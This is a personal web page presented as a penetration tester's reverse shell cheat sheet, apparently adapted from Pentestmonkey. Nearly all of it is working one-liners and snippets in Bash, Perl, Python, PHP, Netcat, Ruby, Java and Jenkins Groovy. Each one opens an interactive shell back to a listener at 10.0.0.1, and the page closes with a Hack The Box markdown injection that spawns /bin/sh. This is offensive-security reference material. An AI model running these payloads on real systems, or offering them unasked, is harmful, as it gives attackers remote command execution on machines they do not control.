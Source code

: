 ```yaml
---
layout: default
title : muzec - Reverse Shell Cheat Sheet
---
```


During A Penetration Test If You’re Lucky Enough To Find A Command Execution Vulnerability You Will Probably Want An Interactive Shell. Duplicate From Pentestmonkey With A Little Remix Lol.

### Reverse Shell Cheat Sheet:-

### Bash

```bash
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Perl

```perl
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### Python

```py
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```py3
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Python Flask

```py
__import__('os').system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f')
```

### PHP

```php
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

### Netcat

```sh
nc -e /bin/sh 10.0.0.1 1234
```

```sh
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f
```

### Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

### Java

```java
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

### Jenkins Reverse Shell Code For Linux And Window

```bash
String host="10.0.0.1";
int port=1234;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```cmd.exe
String host="10.0.0.1";
int port=1234;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

### Some Special Shell HTB MARKDOWN Extension

```sh
# Skytrain Inc 
## Ticket to 
__Ticket Code:__
**102+ 10 == 112 and __import__('os').system('/bin/sh') == False
```

Greeting From [Muzec](https://twitter.com/muzec_saminu)

<br> <br>
[Back To Home](../index.md)
<br>
